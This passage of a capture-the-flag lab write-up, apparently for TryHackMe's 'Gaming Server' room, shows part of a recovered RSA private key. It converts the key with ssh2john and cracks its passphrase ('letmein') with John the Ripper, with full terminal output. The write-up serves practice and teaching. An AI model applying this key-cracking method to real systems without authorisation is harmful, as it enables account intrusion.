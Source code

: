 ```
oYiTtCJrL3IctTrEuBW8gE37UbSRqTuj9Foy+ynGmNPx5HQeC5aO/GoeSH0FelTk
cQKiDDxHq7mLMJZJO0oqdJfs6Jt/JO4gzdBh3Jt0gBoKnXMVY7P5u8da/4sV+kJE
99x7Dh8YXnj1As2gY+MMQHVuvCpnwRR7XLmK8Fj3TZU+WHK5P6W5fLK7u3MVt1eq
Ezf26lghbnEUn17KKu+VQ6EdIPL150HSks5V+2fC8JTQ1fl3rI9vowPPuC8aNj+Q
Qu5m65A5Urmr8Y01/Wjqn2wC7upxzt6hNBIMbcNrndZkg80feKZ8RD7wE7Exll2h
v3SBMMCT5ZrBFq54ia0ohThQ8hklPqYhdSebkQtU5HPYh+EL/vU1L9PfGv0zipst
gbLFOSPp+GmklnRpihaXaGYXsoKfXvAxGCVIhbaWLAp5AybIiXHyBWsbhbSRMK+P
-----END RSA PRIVATE KEY-----

```

# Exploit

## Ssh2John

We use [[Ssh2john]] to make it readable to [[JohnTheRipper]] :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Gaming Server]
└─$ ssh2john key > pass.hash    
```

## John The Ripper

Now we can use [[JohnTheRipper]] to crack the hash :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Gaming Server]
└─$ john  pass.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 12 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
letmein          (key)     
1g 0:00:00:00 DONE 2/3 (2025-07-20 18:24) 33.33g/s 30866p/s 30866c/s 30866C/s 123456..pepper
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

Now we can use this password to access .
## SSH

I gave the secretKey file the right permissions in a way that I had full access to read and modify the file, while all other users (group members and others) have no access.
